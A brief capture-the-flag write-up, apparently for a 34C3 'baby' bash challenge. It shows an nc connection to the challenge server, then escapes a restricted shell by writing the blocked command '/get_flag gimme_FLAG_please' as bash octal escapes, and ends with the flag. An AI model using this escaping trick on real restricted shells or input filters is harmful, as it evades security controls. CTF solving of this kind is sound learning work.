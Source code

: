 If you're a baby and know bash, try this:
```bash
nc 35.189.118.225 1337
```

```bash
a=$'\137' #is octal ASCII code for '_' 
echo $a
_
```

```bash
baby> /$'\147'$'\145'$'\164'$'\137'$'\146'$'\154'$'\141'$'\147' #/get_flag
Usage: /get_flag gimme_FLAG_please
/$'\147'$'\145'$'\164'$'\137'$'\146'$'\154'$'\141'$'\147' $'\147'$'\151'$'\155'$'\155'$'\145'$'\137'$'\106'$'\114'$'\101'$'\107'$'\137'$'\160'$'\154'$'\145'$'\141'$'\163'$'\145'  #/get_flag gimme_FLAG_please
34C3_LoOks_lik3_y0U_are_nO_b4by_4ft3r_4ll
```

